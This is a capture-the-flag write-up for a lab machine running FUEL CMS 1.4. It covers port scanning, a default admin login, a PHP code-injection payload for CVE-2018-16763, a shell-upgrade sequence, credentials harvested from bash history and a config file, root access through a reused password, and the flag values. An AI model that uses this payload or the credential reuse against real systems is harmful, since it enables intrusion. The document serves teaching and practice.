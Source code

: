 # FUEL

## NMAP SCAN

```text
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 31:3f:4e:32:8c:28:6d:92:2c:58:1d:9e:12:e8:23:c5 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDN7WOd3eBoWrijaP9ht9lhr3G/MBjhE0DWmONR01DbR1So/fUz73Z/YwPeJlh0e5ZPMd5kS4BKtYKm67OFxpNHtHN/dxHPrJw3Eb3PWeaQn1yleHNpBiTXgUYcG/GdFVFr6UtLmQXmFhOR3h1Kf2e0zckV/eeKp6IITH56ZviaW8i/FLSyI+KWEaFaJGz93VdvzpqvQEtPk3PyOs2l3zr3fBkXrBkRxkKevurGKUOE8Rkgkb64xRmwlUUfFKj4Rx6pMSIOAaaIbFnqF7vOwiZzIZKc3ckbcGu/YsWNp+wnW0WVJUozSB9wqX87jTUmQWn9C1OtAtKakqYO9rXufpTH
|   256 51:d6:24:44:8d:e9:14:4d:89:73:1c:c6:ad:b6:bb:02 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIOxVwd7ROrsWsOdeEIdKhv9CF1nk45BhO9S7cRJesDeO
80/tcp open  http    syn-ack ttl 63 nginx 1.14.0 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD POST
| http-robots.txt: 1 disallowed entry 
|_/fuel/
|_http-server-header: nginx/1.14.0 (Ubuntu)
|_http-title: Welcome to FUEL CMS
```

## PORT 80 ENUMERATION

![](../.gitbook/assets/7ce71d16dd4f4382aacb99f516d72c79.png)

### FUEL CMS 1.4

![](../.gitbook/assets/160a76f6024246808903639661292f35.png)

![](../.gitbook/assets/9198ed0820334117b1642c68ff8ea33d.png)

#### /FUEL

* login page

```text
admin:admin works
```

![](../.gitbook/assets/6f57a60a252746c892bf261a9e192f59.png)

## EXPLOIT

* [https://www.cvedetails.com/cve/CVE-2018-16763/](https://www.cvedetails.com/cve/CVE-2018-16763/)

![](../.gitbook/assets/c08b02c6a37543babe96fd7b401398cd.png)

![](../.gitbook/assets/7319b1d17729436383d76cad42e82df7.png)

* [https://www.exploit-db.com/exploits/47138](https://www.exploit-db.com/exploits/47138)

![](../.gitbook/assets/2c095df080984d33ba734656f0fbb787.png)

```text
'+pi(print($a='system'))+$a('<the cmd you use>')+'
```

![](../.gitbook/assets/f59bd95a1b3f49569886fa02f38111e1.png)

![](../.gitbook/assets/1e97f651710f4a14a26c9fbf5d3d4784.png)

![](../.gitbook/assets/ba7ac009598c44c5bb2c9ca3f4548fac.png)

**UPGRADE SHELL**

```text
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

```text
Ctrl+Z
stty raw -echo; fg
Enter
export TERM=XTERM
```

## MACHINE ENUMERATION

### HOSTNAME

```text
ip-172-31-1-28
```

### USERS WITH SHELL

```text
root:x:0:0:root:/root:/bin/bash
moira:x:1001:1001:,,,:/home/moira:/bin/bash
ubuntu:x:1002:1002:Ubuntu:/home/ubuntu:/bin/bash
```

### IN MOIRA BASH HISTORY

![](../.gitbook/assets/866da15f09284bdb9f6943e27615248e.png)

```text
moira:xH5es74TMBpWmdaG
```

### WEB DIRECTORY FUEL

![](../.gitbook/assets/3cc35a3e7f3c49198a110670dd2bf1c4.png)

![](../.gitbook/assets/e5f9f8905ce040949e636bcc2ddf5839.png)

* MYSQL PASSWORD \(/var/www/fuel/fuel/application/config/database.php\)

![](../.gitbook/assets/b4c983d0aca74b74869940cc2970826d.png)

```text
moira:AVerySecureCoolPassword5
```

## PRIVESC

I've tried everything and after a while, i thougt... lets try again all passwords found with root and ubuntu user.

![](../.gitbook/assets/fd0a98108d3b4619b1f814bc812ed769.png)

```text
root:xH5es74TMBpWmdaG
```

## FLAGS

### USER

```text
9f0668a3231303b55d593e6d61b1b902
```

### ROOT

```text
8f382ca4acbc37411a38b055c0eb85d7
```

![](../.gitbook/assets/f32977a349284be88d518e76148423c6.png)

